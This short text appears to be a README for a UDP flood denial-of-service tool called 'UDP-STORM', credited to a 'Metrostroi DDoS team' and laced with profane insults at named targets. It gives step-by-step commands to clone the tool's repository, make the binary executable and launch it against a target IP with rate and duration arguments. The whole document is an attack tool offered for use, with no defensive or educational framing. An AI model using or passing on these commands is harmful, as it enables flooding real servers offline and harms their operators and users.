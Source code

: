 POWERED BY METROSTROI DDOS TEAM AND SOCK_RAW ELITE

How to use (fuck metrostroi and shakhmuhametik):

1. Linux (ubuntu, kali)

- git clone https://github.com/ItsFaiter/udpbypass-l4.git
- cd udpbypass-l4
- chmod 777 UDP-STORM 
- ./UDP-STORM
- ./UDP-STORM IP 200 -1 60
